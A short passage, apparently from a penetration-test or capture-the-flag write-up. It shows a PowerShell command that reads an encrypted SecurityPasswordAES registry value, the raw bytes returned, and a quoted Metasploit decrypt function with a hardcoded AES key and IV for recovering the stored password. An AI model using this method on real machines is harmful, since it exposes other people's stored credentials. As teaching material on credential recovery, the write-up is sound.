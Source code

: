 SecurityPasswordAES is there from the list above. It just dumps a list of integers:

```
(get-itemproperty -path .).SecurityPasswordAES

255
155
28
115
214
107
206
49
172
65
62
174
19
27
70
79
88
47
108
226
209
225
243
218
126
141
55
107
38
57
78
91
```

Looking a bit more at the Metasploit code, there’s a decrypt function:
```
def decrypt(encrypted_data)
    password = ""
    return password unless encrypted_data

    password = ""

    key = "\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
    iv  = "\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
    aes = OpenSSL::Cipher.new("AES-128-CBC")
    begin
        aes.decrypt
        aes.key = key
        aes.iv = iv
        plaintext = aes.update(encrypted_data)
        password = Rex::Text.to_ascii(plaintext, 'utf-16le')
        if plaintext.empty?
            return nil
        end
    rescue OpenSSL::Cipher::CipherError => e
        print_error("Unable to decrypt the data. Exception: #{e}")
    end
```
